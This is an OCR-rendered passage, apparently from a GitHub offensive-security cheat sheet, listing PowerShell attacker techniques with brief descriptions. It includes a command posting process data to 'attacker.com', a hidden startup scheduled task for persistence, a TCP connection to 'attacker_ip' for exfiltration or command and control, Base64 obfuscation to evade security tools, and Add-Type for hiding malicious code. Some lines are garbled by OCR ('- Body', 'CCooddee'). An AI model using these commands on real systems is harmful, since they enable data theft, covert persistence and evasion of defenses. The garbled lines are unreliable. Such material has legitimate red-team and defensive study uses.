 ```powershell
$data = Get-Process | ConvertTo-Json; Invoke-RestMethod -Uri 'http://attacker.com/data' -Method Post - Body $data
```

### Using PowerShell to Access WMI for Stealth

Leverages WMI (Windows Management Instrumentation) to execute system queries, which can be less
conspicuous than direct PowerShell commands.

```powershell
$query = 'SELECT * FROM Win32_Process'; Get-WmiObject -Query $query
```

### Scheduled Task for Persistence

Creates a scheduled task to execute PowerShell commands, ensuring persistence and execution even after system reboots.

```powershell
$action = New-ScheduledTaskAction -Execute 'Powershell.exe' -Argument '-NoProfile -WindowStyle Hidden -
Command "YourCommand"'; $trigger = New-ScheduledTaskTrigger -AtStartup; Register-ScheduledTask -Action
$action -Trigger $trigger -TaskName 'MyTask' -Description 'MyDescription'
```

### Using PowerShell to Interact with the Network Quietly

Establishes a network connection for quiet data transmission, useful for maintaining stealth during data exfiltration or command and control operations.

```powershell
$client = New-Object Net.Sockets.TcpClient('attacker_ip', 443); $stream = $client.GetStream(); # Send and receive data
```

### Base 64 Encoding for Command Obfuscation

Encodes a PowerShell command in Base64 to obfuscate it, making it less detectable by security tools.

```powershell
$command = 'Get-Process'; $encodedCommand =code
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($command)); powershell.exe -code
EncodedCommand $encodedCommand
```

### Utilizing PowerShell Add-Type for CCooddee Execution

Defines and executes code within a custom .NET class using PowerShell, which can be used to hide malicious activities within seemingly benign code

```powershell
Add-Type -TypeDefinition 'using System; public class MyClass { public static void Run() {
Console.WriteLine("Executed"); } }'; [MyClass]::Run()
```
